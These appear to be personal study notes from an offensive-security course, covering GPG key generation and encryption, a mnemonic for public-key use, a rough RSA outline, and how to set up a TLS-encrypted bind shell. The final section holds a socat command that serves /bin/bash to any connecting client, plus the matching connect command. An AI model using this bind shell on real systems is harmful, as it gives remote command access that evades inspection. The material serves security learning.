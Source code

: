 A(Holds prviate to decrypt, and public key to distribute) - exchange - B(Holds public key to encrypt) 
```bash
gpg --gen-key
gpg --output example-pub.asc --armor --export Offsec # armor flag for output being in ASCII

echo "Asymmetric encryption example" > asymmetry.txt
gpg --recipient Offsec --encrypt asymmetry.txt
# transfer file
gpg --decrypt asymmetry.txt.gpg # requires passphrase

```
It can sometimes be tricky to recall who has to use which keys to encrypt and decrypt messages with asymmetric encryption. We can use the following mnemonics to help us remember: 
SUPER 
1. S = Sender 
1. U = Uses 
1. P = Public
1. E = Encryption-key of 
1. R = Receiver.

Asymmetric key-pairs can also be used to sign and verify messages.
A will sign the message with private key and B verifies it with the public key - Signing != sending the private key!!

### Asymmetric Encryption Maths

Prime Factorisation:
x * y = z # z being the unqiue product of two prime numbers, so for:
primes p,q
product n

Using n as base, perform additional maths to out two special numbers e and d - such that their properties are relative to n
Public key as a tuple(n,e)
Private key as a tuple(n,d)

### Asymmetric Encrypted Bind Shells

Encrypted communication rely on the Secure Sockets Layer(SSL)

```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 30 -out bind_shell.crt

# req = create a new certificate
# -newkey generate a new private key
# rsa:2048 defines the encryption algorithm we want to use. This is similar to the --cipher-algo flag used by gpg. In this case, we're using the RSA algorithm with a 2048-bit key length.
# -nodes create the private key without a passphrase
# -key save the generated private key to an output file in Base64 format.
# -x509 ensures that our certificate is self-signed; an  alternative is to use an existing certificate authority
# -days certificate is valid for
# -out saves the certificate to file, also in Base64 format
# This creates a bind_shell.crt(certificate) and bind_shell.key(private key)

socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin//bash

# Host certificate with socat 

socat - OPENSSL:$IP:$PORT,verify=0 <cmd>
```
